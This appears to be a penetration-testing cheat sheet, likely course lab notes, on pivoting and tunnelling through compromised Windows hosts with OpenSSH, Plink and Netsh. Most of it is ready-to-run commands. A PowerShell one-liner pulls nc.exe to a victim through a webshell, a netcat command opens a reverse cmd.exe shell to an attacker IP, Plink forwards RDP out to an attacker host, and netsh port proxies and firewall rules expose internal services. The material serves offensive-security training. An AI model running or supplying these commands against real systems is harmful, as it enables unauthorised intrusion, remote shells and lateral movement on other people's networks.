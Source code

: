 # Port Forwarding and SSH Tunneling with Windwos Tools

* Use OpenSSH
* Use Plink (no dynamic remote port forwarding)
* Use Netsh

## Use OpenSSH Dynamic Remote Port Forwarding on Windows

Scenario

* Attacker has Remote Desktop access to Victims Windows machine
* Attacker establish a dynamic port forwarding with SSH client  
* Use proxychains to attack multiple ports via attackers port
* Requires a gcc compiler
* Download `https://github.com/rofl0r/proxychains-ng`

ProxyChains is a UNIX program, that hooks network-related libc functions in DYNAMICALLY LINKED programs via a preloaded DLL (dlsym(), LD_PRELOAD) and redirects the connections through SOCKS4a/5 or HTTP proxies. It supports TCP only (no UDP/ICMP etc).

Victim

* -v verbose
* -N don't open shell
* -R dynamic remote port forwarding (reverse)
* -o "UserKnownHostsFile=C:\Windows\Temp\hosts" ignore hosts file
* -o "StrictHostKeyChecking=no" ignore host key

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.175.64
where ssh
ssh -N -R 9998 bmoser@192.168.45.241 -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=C:\Windows\Temp\hosts"
```

Attacker

```bash
open /etc/proxychains.conf

# Configure proxy chain socks5 127.0.0.1 9998
sudo sed -i 's/socks .*/socks5 127.0.0.1 9998/g' /etc/proxychains.conf

# SQL Attack
proxychains psql -h 10.4.175.215 -U postgres

# Other
proxychains ./ssh_exe_exercise_client_aarch64 --ip-addr 10.4.175.215 --port 1234

```

## Use Plink for Remote Port Forwaring on Windows

Scenario

* Limitation: Does NOT support dynamic remote port forwarding
* Attacker drops a webshell on Victims Application Server
* Attacker copy nc to Victim
* Attacker run reverse shell using NC
* Use ssh like PLink for remote port forwarding e.g. Remote Desktop
* Usage <https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html#plink-usage>

```bash
sudo systemctl start apache2
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
nc -nvlp 4444
```

Victim

```bash
# Run via webshell .../umbraco/forms.aspx
powershell wget -Uri http://192.168.45.241/nc.exe -OutFile C:\Windows\Temp\nc.exe
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.241 4444
```

Attacker

```bash
# Run via rshell to forward xRDP
set /p pw="Passwort: "
powershell wget -Uri http://192.168.45.241/plink.exe -OutFile C:\Windows\Temp\plink.exe

# Forward Remote Desktop Port to Attacker local port 9999
C:\Windows\Temp\plink.exe -ssh -l USER -pw %pw% -R 127.0.0.1:9999:127.0.0.1:3389 ATTACKER-IP

# Pipe keystrokes with echo to PLink that forwards Remote Desktop Port to Attacker local port 9999
cmd.exe /c echo n | C:\Windows\Temp\plink.exe -ssh -l USER -pw %pw% -R 127.0.0.1:9999:127.0.0.1:3389 ATTACKER-IP

# Attack using the loopback port on kali linux
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9999
```

## Use Netsh (network shell) Port Forwarding on Windows

Scenario

* Limitation: Requires administrative privileges (otherwise UAC might block the setup)
* Attacker has Remote Desktop access
* Attack creates a tunnel between remote SSH port 22 to the local port 2222
* Use whoami /priv | find "Impersonate"
* Use netsh interface portproxy add v4tov4

Victim

```bash
xfreerdp3 /u:rdp_admin /p:P@ssw0rd! /v:192.168.175.64

# Use net shell establish SSH tunnel to remote Victim
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.175.64 connectport=22 connectaddress=10.4.175.215

# Verify the tunnel connection
netstat -nat | find "2222"
netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.175.64  2222        10.4.175.215    22

# Add a new firewall rule that allows incoming connection on port 2222
netsh advfirewall firewall add rule name="portproxy_ssh_2222" protocol=TCP dir=in localip=192.168.175.64 localport=2222 action=allow
Ok.

# Attack
sudo nmap -sS 192.168.175.64 -Pn -n -p2222
ssh database_admin@192.168.175.64 -p2222

# Cleanup, remove the firewall rule and the tunnel
netsh advfirewall firewall delete rule name="portproxy_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.175.64
```
